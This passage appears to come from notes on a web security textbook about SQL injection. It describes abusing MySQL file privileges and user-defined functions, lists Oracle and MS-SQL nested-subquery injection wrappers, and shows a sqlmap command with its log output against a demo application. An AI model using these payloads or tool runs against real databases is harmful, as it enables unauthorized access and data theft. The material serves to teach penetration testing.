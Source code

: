 This capability can be used to perform other attacks:
- An attacker with `FILE_PRIV` permissions can simply open the relevant file and read arbitrary data from within the database, bypassing any access controls enforced within the database itself.
- MySQL enables users to create user-defined functions (UDFs) by calling out to a compiled library file that contains the function's implementation. This file must be located within the normal path from which MySQL loads dynamic libraries. An attacker can use the preceding method to create an arbitrary binary file within this path and then create a UDF that uses it. 

## Using SQL Exploitation Tools
**NOTE: The exploitation tool are best suited to extracting data from the database by exploiting an injection point that you have already identified and understood. They are not a magic bullet for finding and exploiting SQL injection flaws. In practice, it is often necessary to provide same additional SQL syntax before and/or after the data injected by the tool for the tool's hard-coded attacks to work.**

> HACK STEPS
> When you  have identified a SQL injection vulnerability, using the techniques described earlier, you can consider using a SQL injection tool to exploit the vulnerability and retrieve interesting data from the database. This option is particularly useful in cases where you need to use blind techniques to retrieve a small amount of data at a time.
>> 1. Run the SQL exploitation tool using an intercepting proxy. Analyze the requests made by the tool as well as the application's responses. Turn on any verbose output options on the tool, and correlate its progress with the obsered queries and responses.
>> 2. Because these kinds of tools rely on preset tests and specific response syntax, it may be necessary to append or prepend data to the string injected by the tool to ensure that the tool gets the expected response. Typical requirements are adding a comment character, balancing the single quotes within the server's SQL query, and appending or prepending closing brackets to the string to match the original query.
>> 3. If the syntax appears to be failing regardless of the methods described here, it is often easiest to create a nested subquery that is fully under your control, and allow the tool to inject into that. This allows the tool to use inference to extract data. Nested queries work well when you inject into standard `SELECT` and `UPDATE` queries. Under Oracle they work within an `INSERT` statement. In each of the following cases, prepend the text occurring before `[input]`, and append the closing bracket occurring after that point:
>>> **Oracle:** '||(select 1 from dual where 1=[input] )
>>> **MS-SQL:** (select 1 where 1=[input] )


In practice, sqlmap is an effective too lfor database information retrieval through time-delay  or other inference methods and can be useful for `UNION`-based retrieval. One of the best ways to use it is with the `--sql-shell` option. This gives the attacker a SQL prompt and performs the necessary `UNION`, error-based, or blind SQL injection behind the scenes to send and retrieve results. For example:

```
C:\sqlmap>sqlmap.py -u http://wahh-app.com/employees?Empno=7369 --union-use --sql-shell -p Empno

	sqlmap/0.8 - automatic SQL injection and database takeover tool 
	http://sqlmap.sourceforge.net

[*] starting at: 14:54:39

[14:54:39] [INFO] using 'C:\sqlmap\output\wahh-app.com\session' as session file
[14:54:39] [INFO] testing connection to the target url
[14:54:40] [WARNING] the testable parameter 'Empno' you provided is not into the Cookie
[14:54:40] [INFO] testing if the url is stable, wait a few seconds
[14:54:44] [INFO] url is stable
[14:54:44] [INFO] testing sql injection on GET parameter 'Empno' with 0 parenthesis
[14:54:44] [INFO] testing unescaped numeric injection on GET parameter 'Empno'
[14:54:46] [INFO] confirming unescaped numeric injection on GET parameter 'Empno'
[14:54:47] [INFO] GET parameter 'Empno' is unescaped numeric injectable with 0 parenthesis
[14:54:47] [INFO] testing for parenthesis on injectable parameter
[14:54:50] [INFO] the injectable parameter requires 0 parenthesis
[14:54:50] [INFO] testing MySQL
[14:54:51] [WARNING] the back-end DBMS is not MySQL
```